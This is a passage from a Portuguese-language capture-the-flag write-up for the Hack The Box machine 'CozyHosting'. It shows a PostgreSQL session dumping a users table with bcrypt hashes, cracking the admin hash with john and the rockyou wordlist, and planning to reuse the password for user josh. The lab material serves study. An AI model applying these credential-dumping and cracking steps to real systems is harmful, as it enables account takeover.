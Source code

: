```shell

```
{: .nolineno }
Conectando no DB cozyhosting e listando tabelas.
```shell
postgres=# \c cozyhosting
Password: 
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
You are now connected to database "cozyhosting" as user "postgres".
cozyhosting=# \dt
         List of relations
 Schema | Name  | Type  |  Owner   
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres
(2 rows)
```
{: .nolineno }

Puxando os dados da tabela users:
```shell
select * from users;

  name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)

```
{: .nolineno }
A hash do admin se encontra em banco de dados de hashs quebradas na internet.
Mas usamos o john também pra meio de estudo.

`$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited`

```shell
┌──(kali💀kali)-[~/HTB/cozyhosting]
└─$ john hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manchesterunited (?)     
1g 0:00:00:57 DONE (2024-01-15 02:38) 0.01750g/s 49.14p/s 49.14c/s 49.14C/s dougie..keyboard
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
{: .nolineno }

O único usuário que encontramos no servidor foi josh, vamos tentar logar com essa senha nele.

## **Escalação de Privilégio**
